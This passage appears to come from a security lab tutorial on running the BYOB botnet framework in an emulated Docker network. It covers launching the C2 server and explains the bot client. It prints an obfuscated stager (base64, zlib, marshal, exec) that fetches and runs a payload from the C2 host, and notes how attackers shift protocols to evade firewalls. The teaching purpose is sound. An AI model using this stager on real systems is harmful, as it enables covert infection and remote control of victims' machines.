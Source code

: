 ### Task1.C: How it works

Now we run ```python3 botnet-in-mini-internet.py```, our emulator will generate a folder named ```botnet-in-mini-internet```. Enter this folder, and we can bring up our custom botnet docker container cluster. In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the .bashrc file (in our provided SEEDUbuntu 20.04 VM).

```
$ docker-compose build # Build the container image
$ docker-compose up # Start the container
$ docker-compose down # Shut down the container

// Aliases for the Compose commands above
$ dcbuild # Alias for: docker-compose build
$ dcup # Alias for: docker-compose up
$ dcdown # Alias for: docker-compose down
```

When we run ```docker-compose up```, all the containers will be running in the background, and we need to get a shell on C2 server container. First, we use ```dockps | grep 150.0.71``` to find out the container ID of C2 server, and then use ```docksh <id>``` to attach that container. After that, we can go to ```/tmp/byob/byob``` folder to launch our Botnet C2 console by using command ```python3 server.py --port 445```.

The port 445 is the port that will be used for communication with bots. This port will be binded when we starting the all the container. The above command is just to attach to our C2 console. At the same time, the bots program would also run in the background, so wait a couple of minutes in C2 console, we will see our bot client join to our botnet (type ```sessions``` command in C2 console to check. ). That means we can control those bot and send any commands to them.

So how it works? Let's jump to perspective of bots client and see what happend in client side. First, bot client will run ```python3 /tmp/BotClient.py``` in the background when we bring up containers (It should be waiting until network configuration ready). We can attach to any of bot client container and open that file. The following is the code of ```BotClient.py```.

__FIXME__: `BotClient.py` is no longer hard-coded on client. It is now downloded from the server. It is generated by the server using the `client.py` script.

```python3
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode(b'eJwrtWBgYCgtyskvSM3TUM8oKSmw0tc3NNAzNDXQM9AzN7QyMTHT1y8uSUxPLSrWTzLz0CuoVNfUK0pNTNHQBAAMzxEz')))))
```
There is one critical factor of bot program is the size. Because in real world, bots can be many types of system, such as IoT device, busybox, Android and so on, so from attacker perspective, they do not want to bot getting infection failed due to some dependencies issues. Therefore, it is important to reduce the size of bot program, in order to make it more stable. As we can see the above code. It will invoke ```exec``` to run another piece of code. That code has been decoded for some times and eventually run it. We can print out what it is after decoding. Here is the out put.

```python3
urlopen('http://10.150.0.71:446//stagers/b6H.py').read()
```
Basically, bot program will fetch another python file from remote server, which is also our C2 server, but the port is 446 (another port binded by C2 server, used for providing payload), through HTTP protocol. The ```b6H.py``` is our real bot main program, it contains how the bot communicate with C2 server, and running different types of jobs (like re-connect to C2 server). In this case(Byob framework), the communication protocol between C2 and bots is TCP, it use a JSON to maintain the commands, including ```task_id```, ```command``` etc fields. Just keep that in mind, in real world, the communication method can be various, because attack and defense are a continuous process, if a communication protocol is detected by the firewall, the attacker will change another communication protocol to bypass the detection.
